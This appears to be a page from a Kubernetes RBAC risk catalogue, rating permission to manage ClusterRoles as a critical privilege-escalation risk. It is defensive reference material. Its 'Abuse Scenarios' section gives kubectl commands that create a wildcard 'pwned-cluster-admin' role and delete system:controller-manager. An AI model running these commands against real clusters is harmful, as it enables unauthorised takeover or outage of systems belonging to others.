 ```yaml
---
id: 1027
title: "Manage ClusterRoles (create, update, patch, delete)"
description: "Allows creating, modifying, or deleting ClusterRoles. This grants the ability to define or alter cluster-wide permissions, enabling an attacker to grant themselves or others arbitrary privileges, including full cluster admin access, leading to complete cluster compromise."
category: Elevation of Privilege
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field         | Value                                                                                             |
| ------------- | ------------------------------------------------------------------------------------------------- |
| ID            | 1027                                                                                              |
| Name          | Manage ClusterRoles (create, update, patch, delete)                                               |
| Risk Category | Elevation of Privilege                                                                            |
| Risk Level    | {{< risk Critical >}}                                                                             |
| Role Type     | ClusterRole                                                                                       |
| API Groups    | rbac.authorization.k8s.io                                                                         |
| Resources     | clusterroles                                                                                      |
| Verbs         | create, update, patch, delete                                                                     |
| Tags          | {{< tag "ClusterAdminAccess" >}} {{< tag "PrivilegeEscalation" >}} {{< tag "RBACManipulation" >}} |

## Description

Allows creating, modifying, or deleting ClusterRoles. This grants the ability to define or alter cluster-wide permissions, enabling an attacker to grant themselves or others arbitrary privileges, including full cluster admin access, leading to complete cluster compromise.

## Abuse Scenarios

1. Create a new ClusterRole with cluster-admin privileges.

```bash
kubectl create -f - <<EOF
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: pwned-cluster-admin
rules:
- apiGroups: ["*"]
  resources: ["*"]
  verbs: ["*"]
EOF
# Example: kubectl create -f - <<EOF ... EOF

```

2. Delete a critical ClusterRole, potentially breaking cluster functionality.

```bash
kubectl delete clusterrole <clusterrole-name>
# Example: kubectl delete clusterrole system:controller-manager

```
